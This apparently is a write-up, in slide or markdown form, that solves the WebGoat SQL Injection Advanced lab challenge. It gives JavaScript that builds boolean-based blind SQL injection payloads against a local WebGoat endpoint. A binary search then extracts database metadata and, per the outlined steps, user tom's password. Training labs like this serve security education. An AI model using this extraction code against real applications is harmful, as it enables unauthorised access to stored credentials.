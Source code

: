 
  ...future,
  ...highlight,
  ...myTheme,
}

## Setup

* Node.js (v16.9.1)
* Vim for text processing
* Postman(for manipulating HTTP requests)

---
## Steps 

```
1. Validate input (start and end)
2. Get the maximum table name length
3. Get the count of tables
4. For each table:
      Get table Name
          Get count of columns for the table
          Get all column names
5. Find the table with column 'password' and a column which can have 'tom' as value
6. Check the tables for tom with a query
7. Find each character for the field where there's an entry for tom
```

---
## Making HTTP requests
The [axios](https://www.npmjs.com/package/axios) module was used for making HTTP requests
```javascript
export const makeRequest = config => {
  return axios(config)
    .then(function (response) {
      return response.data;
    })
    .catch(function (error) {
      console.log(error.data);
    });
}

```
---

## Boolean test with HTTP request

```javascript
export const booleanTest = async (type, value, sqlQuery) => {
  let data = getPayload(type, value, sqlQuery) 
  let config = {
    method: 'put',
    url: 'http://127.0.0.1:8080/WebGoat/SqlInjectionAdvanced/challenge',
    headers: getHeaders(),
    data : data
  };

  let response = await makeRequest(config); 

  if(response.feedback.includes('already exists'))
    return true
  else 
    return false
}

```
---

## Setting up injection string and the payload
```javascript
export const getInjectionString = (type, value, sqlQuery) => {
  let comparison = ''
  if(type == 'min')
    comparison = `(${sqlQuery}) < ${value}`
  else if (type == 'max')
    comparison = `(${sqlQuery}) > ${value}`
  else if (type == 'exists')
    comparison = `exists (${sqlQuery})`
  else
    //test for equality if we do not recognize the type of injection
    comparison = `(${sqlQuery}) = ${value}`
  return `tom\' and ${comparison} and \'1\'=\'1`
}

export const getPayload = (type, value, sqlQuery) => {
  const injectionString = getInjectionString(type, value, sqlQuery) 
  return `username_reg=${injectionString}&email_reg=y&password_reg=aa&confirm_password_reg=aa`;
}
```

---

## Binary search

The *binarySearch* method searches for the value in O(log(n)) time.
```javascript
export const binarySearch = async (min, max, sqlQuery) => {
  while(min <= max) {
    let mid = Math.floor((min + max)/ 2)

    if(await booleanTest('min', mid, sqlQuery)) {
      max = mid - 1
    } else if(await booleanTest('max', mid, sqlQuery)) {
      min = mid + 1
    } else 
      return mid
  }
}
```

---

## Confirm Value

Confirms value tests for the value return by *binarySearch* and tests it with equality.
```javascript
export const confirmValue = async (value, sqlQuery) => {
  // Confirm the retrieved value
  if(await booleanTest(true, value, sqlQuery)) {
    return value
  } else {
    console.log(`something's wrong. binarySearch did not find the correct value`)
      console.log(`\n${sqlQuery}`)
      process.exit(1)
  }
}
```
---
## Passing SQL queries to `binarySearch` and `confirmValue`
```javascript
const tableMaxLength = async () => {
  const sqlQuery = 'select max(char_length(table_name)) from information_schema.tables';
  let maxValue = await binarySearch(10, 64, sqlQuery)
  return confirmValue(maxValue, sqlQuery)
}
```





